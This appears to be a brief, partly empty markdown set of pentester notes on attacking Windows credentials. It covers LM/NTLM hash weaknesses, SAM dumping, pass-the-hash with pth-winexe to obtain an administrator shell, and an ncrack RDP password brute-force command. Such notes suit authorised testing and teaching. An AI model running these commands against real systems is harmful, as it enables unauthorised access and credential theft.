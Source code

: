 # Windows

## LM hashes
- Password longer than 7 is split and each half hashed separately
- Passwords are converted into uppercase
- No salt
- Empty LM hash
```
AAD3B435B51404EE
AAD3B435B51404EEAAD3B435B51404EE
```
## NTLM hashes

## Dumping hashes
- Cannot copy SAM when sys is in use

## Pass the Hash
Auth using username and NTLM hash (since NTLM and LM hashes are not salted)

- Replace "no password" in dump wih empty LM hash
- Copy admins dumped hash (LM:NTML)
- export SMBHASH=LM:NTML
- pth-winexe -U administrator% //ip cmd

## RDP
```
ncrack -v -f --user administrator -P password.txt rdp://ip,CL=1
```

## LSASS

## References
- Extracting User Password Data with Mimikatz DCSync: https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/
- Pwning with Responder – A Pentester’s Guide: https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/
